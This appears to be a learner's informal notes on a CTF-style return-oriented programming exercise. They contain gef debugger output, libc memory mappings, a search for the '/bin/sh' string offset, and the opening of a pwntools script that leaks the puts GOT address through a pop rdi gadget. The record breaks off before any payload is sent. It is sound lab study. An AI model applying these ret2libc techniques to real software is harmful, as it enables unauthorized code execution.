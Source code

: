 ```

```


Hmmm, it's still not printing the data out...

Oh heck, it's breaking because we overwrote the `rsp` value ...lol
```
[#1] 0x7ffff7e40bcf → __GI__IO_puts(str=0x6161616a61616169 <error: Cannot access memory at address 0x6161616a61616169>)
```

Oh, so my base pointer is supposed to point to that 00001 at some point haha
Right before `gets`:
```
$rbp   : 0x00007fffffffdd90  →  0x0000000000000001
```

This is, at least, a valid value?


Shoving that in there gets us to the end of `puts` without a segfault but...it still is only printing new lines


```
gef➤  p syscall
$2 = {void (void)} 0x7ffff7ecbed0 <syscall>

      0x7ffff7dcb000     0x7ffff7df1000    0x26000        0x0  r--p   /libc.so.6
      0x7ffff7df1000     0x7ffff7f46000   0x155000    0x26000  r-xp   /libc.so.6
      0x7ffff7f46000     0x7ffff7f9a000    0x54000   0x17b000  r--p   /libc.so.6
      0x7ffff7f9a000     0x7ffff7f9e000     0x4000   0x1cf000  r--p   /libc.so.6
      0x7ffff7f9e000     0x7ffff7fa0000     0x2000   0x1d3000  rw-p   /libc.so.6

┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ strings -tx libc-2.31.so| grep "bin/sh"
 1b45bd /bin/sh

7ffff7dcb000 + 1b45bd = 7FFFF7F7F5BD
```


```
gef➤  p puts
$1 = {int (const char *)} 0x7ffff7e40b00 <__GI__IO_puts>
```













Leak Script:
```python
def leakPuts():
	binary = context.binary = ELF('./rop', checksec=False)
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	
	pltPuts = p64(binary.plt.puts)		# Address to call
	gotPuts = p64(binary.got.puts)		# Address to leak


	print(hex(binary.plt.puts))
	print(hex(binary.got.puts))

	p = process()

```